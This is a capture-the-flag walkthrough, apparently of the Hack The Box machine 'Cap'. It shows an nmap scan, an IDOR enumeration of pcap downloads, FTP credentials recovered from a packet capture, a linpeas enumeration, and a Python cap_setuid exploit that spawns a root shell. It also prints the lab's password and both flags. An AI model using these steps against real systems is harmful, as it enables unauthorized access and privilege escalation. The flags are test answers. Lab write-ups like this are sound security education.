

Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.10.245
```


Go to the site


Go to `Security Snapshot` and notice that the `URL` has `/data/id`. If we substitute a different `id`, we will go to a different user's page. To check how many `.pcap` files there are, we will use `Burp Suite Intruder`


Let's create a list containing numbers from `0` to `100`
```bash
seq 0 100 > number_list.txt
```


Paste this file into `Intruder` and launch the attack


We see that there is an `id` with files. This is `0, 4, 10, 11, 12, 13, 14`


Download and look at the file with `id=0`


Look for the `ftp` packet and open it via `Follow > TCP Stream`


There are credentials for authorization via `FTP`
```Username
nathan
```
```Password
Buck3tH4TF0RM3!
```
Log in to `FTP`
```bash
ftp nathan@10.10.10.245
```


Download everything we see


```flag
2902bb729f0bf336292c1538ad2fed60
```
Try connecting to `nathan` via `SSH`


Try finding files with the **SUID bit** set
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```


Nothing interesting here.
Let's look at the scheduled tasks in `cron`
```bash
cat /etc/crontab
```


Nothing interesting here either. I'll use a [script](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to search for directories for privilege escalation. Download it, move it to `/var/www/html` and start the `http` server.
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```
```bash
cp linpeas.sh /var/www/html
```
After that, download this script on the victim's machine
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```



Run the script


If you look at the entire output of the script, only `Capabilities` is highlighted
>[!info] Note
>**Capabilities** is a Linux mechanism that allows processes to be given **limited root privileges** without full access.


```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```
- **`cap_setuid`** — allows you to change the UID of a process (e.g. become root).
- **`cap_net_bind_service`** — allows you to bind to ports < 1024 (e.g. 80/tcp).

> **Bind** (from English _bind_ — "to bind") in the context of network programming means that the process **binds itself to a specific network port** on the computer to start accepting incoming connections.

<div style="page-break-after: always;"></div>

---

`Copabilities` could also be found with the command
```bash
getcap -r / 2>/dev/null
```


---

Let's create a simple exploit
```Python
import os

# Set UID=0 (root)
os.setuid(0)
# Launch root shell
os.system("/bin/bash")
```
After that, launch it
```bash
/usr/bin/python3.8 exploit.py
```


```flag
7083163567f8d5008fb15552ed74e674
```
